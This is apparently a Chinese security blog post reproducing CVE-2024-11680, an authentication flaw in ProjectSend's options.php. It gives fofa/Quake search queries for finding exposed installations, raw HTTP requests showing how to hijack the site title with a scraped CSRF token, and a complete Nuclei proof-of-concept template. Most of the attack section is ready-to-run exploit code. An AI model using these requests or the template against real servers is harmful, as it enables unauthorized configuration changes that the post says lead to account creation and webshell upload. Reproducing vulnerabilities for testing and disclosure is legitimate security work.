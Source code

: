 #  【漏洞复现】CVE-2024-11680   
混子Hacker  混子Hacker   2024-12-02 12:36  
  
****  
**免责声明**  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不承担任何法律及连带责任。  
  
  
[   
漏洞简介   
]  
  
——    
人生漫长，晴雨交加，但若是心怀热爱，即使岁月荒芜，亦能奔山赴海，静待一树花开  
 【  
摘自《人民日报》  
】 ——  
  
CVE-2024-11680  
  
PrојесtSеnd版本在r1720之前受到不当认证漏洞的影响,远程未经认证的攻击者可以通过发送精心制作的HTTP请求到орtiоnѕ.рhр来利用这个缺陷,从而未经授权地修改应用程序的配置,成功利用允许攻击者创建账户、上传ԝеbѕhеllѕ,并嵌入恶意JаvаSсript  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGvn2h5LldebrN2Odbric7hZOSAnIupDliahQDTMw49qD8CiaTMKjJLueNicAuRdXfZL5d40xdGTmnyKCw/640?wx_fmt=png&from=appmsg "")  
  
  
  
漏洞信息  
  
  
**混子Hacker**  
  
**01**  
  
资产测绘  
  
  
```
fofa: body="ProjectSend"
Quake：body:"ProjectSend"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGvn2h5LldebrN2Odbric7hZOQDZa4zu2XX1gcqqsQJqrRPVXGhEiaCWYwqVnNUzFHLRyMJUZnOeaGiag/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGvn2h5LldebrN2Odbric7hZO8tzqb91B7WS5cOiaeEjfic5VllVBYsggIDTK3bTZ2wXWqfkSJBEbzOCw/640?wx_fmt=png&from=appmsg "")  
  
  
  
**混子Hacker**********  
  
**02**  
  
漏洞复现  
  
  
  
1、访问网站获取csrftoken和cookie，并记录下title值  
```
GET / HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Connection: close
Accept-Encoding: gzip
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGvn2h5LldebrN2Odbric7hZOPwQ6GbyoYRjm2iapQCCHVLKZRCDctm47FRg7RP0KFCicZZhY72cOia0fw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGvn2h5LldebrN2Odbric7hZOtNSIq5iccFpMJyWJv1yKbrpBIsq7a3NbzbajLibMO9ADKiakrPnSKxibMw/640?wx_fmt=png&from=appmsg "")  
  
2、带上cookie和token值访问options.php改title的值，返回500可能存在漏洞  
```
POST /options.php HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (SS; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Connection: close
Content-Length: 138
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=pi3heftu6i4nrtanqiu48pilq8
Accept-Encoding: gzip
csrf_token=e67e90b664ad493abf37c4c770f6d7676453a7275bc21fd0505dac05aa5fa428&section=general&this_install_title=2pei9Dunmem7Jdkj6PbVXS13glW
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGvn2h5LldebrN2Odbric7hZOAJG54Zu9sEZliabLnibtgMBbPbmXEVAXHv7icBdqrVlf7rx8aEHposAVQ/640?wx_fmt=png&from=appmsg "")  
  
3、访问首页查看是否修改成功，可以看到title中Log in &raquo;后值已经被修改为我们设置的值了  
```
GET / HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Connection: close
Cookie: PHPSESSID=pi3heftu6i4nrtanqiu48pilq8
Accept-Encoding: gzip
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGvn2h5LldebrN2Odbric7hZOEDJty15ZSgshKTFr9Mr7ak4fvZAibdMr9WvdC4iaMjdljgcq2l6w37HA/640?wx_fmt=png&from=appmsg "")  
  
4、修改之后记得访问options.php给还原回去，不要影响网站的正常运行，访问首页可以看到已经修改回原来的值了  
```
POST /options.php HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Ubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Connection: close
Content-Length: 138
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=pi3heftu6i4nrtanqiu48pilq8
Accept-Encoding: gzip
csrf_token=e67e90b664ad493abf37c4c770f6d7676453a7275bc21fd0505dac05aa5fa428&section=general&this_install_title=2peHaMAlgDO7f4j4cx0MtyyqdxO
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGvn2h5LldebrN2Odbric7hZOy3ibqicYqZtzbBoYictUlmEo71UUTgPEJbKFrLtlXnp0tVic9epwXWyYpg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGvn2h5LldebrN2Odbric7hZOVRIW0hoUaw5K6hlJv9ciagsnDywl8K0SD0Gn1CTIATiaNNNmGpJKkM6A/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
**混子Hacker**********  
  
**03**  
  
Nuclei Poc  
  
  
```
id: projectsend-auth-bypass
info:
  name: ProjectSend <= r1605 - Improper Authorization
  author: DhiyaneshDK
  severity: high
  description: |
    An improper authorization check was identified within ProjectSend version r1605 that allows an attacker to perform sensitive actions such as enabling user registration and auto validation, or adding new entries in the whitelist of allowed extensions for uploaded files. Ultimately, this allows to execute arbitrary PHP code on the server hosting the application.
  reference:
    - https://www.projectsend.org/
    - https://www.synacktiv.com/sites/default/files/2024-07/synacktiv-projectsend-multiple-vulnerabilities.pdf
  metadata:
    verified: true
    max-request: 1
    fofa-query: body="ProjectSend"
    shodan-query: html:"ProjectSend"
  tags: misconfig,projectsend,auth-bypass,intrusive
variables:
  string: "{{randstr}}"
flow: http(1) && http(2) && http(3) && http(4) && http(5)
http:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
    matchers:
      - type: dsl
        dsl:
          - 'status_code == 200'
          - 'contains(body, "projectsend")'
        condition: and
        internal: true
    extractors:
      - type: regex
        name: csrf
        group: 1
        regex:
          - 'name="csrf_token" value="([0-9a-z]+)"'
        internal: true
      - type: regex
        name: title
        group: 1
        regex:
          - '<title>Log in &raquo; ([0-9a-zA-Z]+)<\/title>'
        internal: true
  - raw:
      - |
        POST /options.php HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        csrf_token={{csrf}}&section=general&this_install_title={{string}}
    matchers:
      - type: dsl
        dsl:
          - 'status_code == 500'
          - 'contains(content_type, "text/html")'
        condition: and
        internal: true
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
    matchers:
      - type: dsl
        dsl:
          - 'status_code == 200'
          - 'contains(body, "{{string}}")'
        condition: and
        internal: true
  - raw:
      - |
        POST /options.php HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        csrf_token={{csrf}}&section=general&this_install_title={{title}}
    matchers:
      - type: dsl
        dsl:
          - 'status_code == 500'
          - 'contains(content_type, "text/html")'
        condition: and
        internal: true
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
    matchers:
      - type: dsl
        dsl:
          - 'status_code == 200'
          - 'contains(body, "{{title}}")'
        condition: and
# poc运行失败的话下载新版的nuclei试下
```  
  
  
  
<<<    
END   
>>>  
  
  
  
原创文章｜转载请附上原文出处链接  
  
更多漏洞｜关注作者查看  
  
作者｜混子Hacker  
  
  
  
